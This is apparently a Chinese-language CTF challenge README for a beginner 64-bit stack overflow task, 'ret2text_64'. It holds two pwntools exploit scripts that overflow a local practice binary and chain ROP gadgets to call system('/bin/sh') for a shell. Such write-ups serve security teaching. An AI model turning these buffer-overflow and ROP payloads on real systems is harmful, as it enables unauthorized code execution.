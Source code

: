 # ret2text_64

- **作者**：pn1fg
- **参考**：W4terCTF 2023
- **难度** ：1
- **分类**：Pwn
- **暴露端口**：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```